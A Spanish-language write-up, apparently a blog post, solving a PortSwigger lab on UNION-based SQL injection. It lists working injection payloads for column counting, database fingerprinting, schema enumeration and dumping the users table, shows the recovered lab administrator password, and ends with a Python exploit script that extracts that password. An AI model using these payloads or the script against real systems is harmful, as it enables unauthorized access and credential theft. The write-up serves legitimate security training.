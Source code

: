 ```yaml
---
title: "05 SQL injection UNION attack, retrieving data from other tables"
collection: publications
category: portswigger
permalink: publications/SQLi/05_SQL injection UNION attack, retrieving data from other tables
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL en el campo de categoría de producto. Para resolver el laboratorio, realizamos un ataque de inyección SQL basado en UNION que recupera los nombres de usuario y las contraseñas de los usuarios de la aplicación.'
date: 2024-12-01
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'SQL injection UNION attack, retrieving data from other tables'
---
```


![logo]({{site.url}}/images/SQLi/sqli-5/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-5/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, realice un ataque de inyección SQL UNION que recupere todos los nombres de usuario y contraseñas, y utilice la información para iniciar sesión como usuario `administrator`.

## Determinamos que el campo si es vulnerable

```javascript
' or 1=1--
```

![Vulnerable]({{site.url}}/images/SQLi/sqli-5/vulnerable.png)

## Determinar el numero de columnas retornadas por la consulta

Miramos la cantidad decolumnas retornar hasta que arroje error. Vemos que nos arroja 2 columnas.

```javascript
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```

![Order by]({{site.url}}/images/SQLi/sqli-5/order by.png)

## Miramos que columna es de tipo 'String'

Inyectamos en cada una de ellas mirando cual podemos inyectar 'String'

```javascript
' UNION SELECT 'A', NULL--
' UNION SELECT NULL, 'A'--
' UNION SELECT 'A', 'A'--
```

En este caso ambas columnas reciben tipo string

![String]({{site.url}}/images/SQLi/sqli-5/tipo string.png)

## Obtener que tipo de Base de dato es

Es una BD Posgres SQL

```javascript
' UNION SELECT version(), null--
```

![Base de datos]({{site.url}}/images/SQLi/sqli-5/BD.png)

## Obtener el nombre de las tablas

Ya que conocemos el tipo de BD, debemos listar el nombre de las tablas.

```javascript
' UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema='public'--
```

![Tablas]({{site.url}}/images/SQLi/sqli-5/tablas.png)

## Listamos las columnas

```javascript
' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name='users'--
```

![Columnas de la tabla]({{site.url}}/images/SQLi/sqli-5/columbas de la tabla.png)

## Listar username y password
Ya que conocemos las columnas de la tabla, debemos listarla

```javascript
' UNION SELECT username, password FROM users--
```

![Usuarios Passwords]({{site.url}}/images/SQLi/sqli-5/listado usuario y password.png)

## Procedemos a hacer el login

```
administrator
4hve3wc018z7mnlll440
```

![login]({{site.url}}/images/SQLi/sqli-5/login.png)

## Solucionado

Solventado el laboratorio

![Aprobado]({{site.url}}/images/SQLi/sqli-5/aprobado.png)

# Codigo Python
```python
import requests
import sys
import urllib3
from bs4 import BeautifulSoup
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def exploit_sqli_users_table(url):
    username = 'administrator'
    path = '/filter?category=Gifts'
    sql_payload = "' UNION select username, password from users--"
    r = requests.get(url + path + sql_payload,  verify=False, proxies=proxies)
    res = r.text
    if "administrator" in res:
        print("[+] Found the administrator password.")
        soup = BeautifulSoup(r.text, 'html.parser')
        admin_password = soup.body.find(text="administrator").parent.findNext('td').contents[0]
        print("[+] The administrator password is '%s'" % admin_password)
        return True
    return False

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
    except IndexError:
        print("[-] Usage: %s <url>" % sys.argv[0])
        print("[-] Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    print("[+] Dumping the list of usernames and passwords...")
    if not exploit_sqli_users_table(url):
        print("[-] Did not find an administrator password.")
```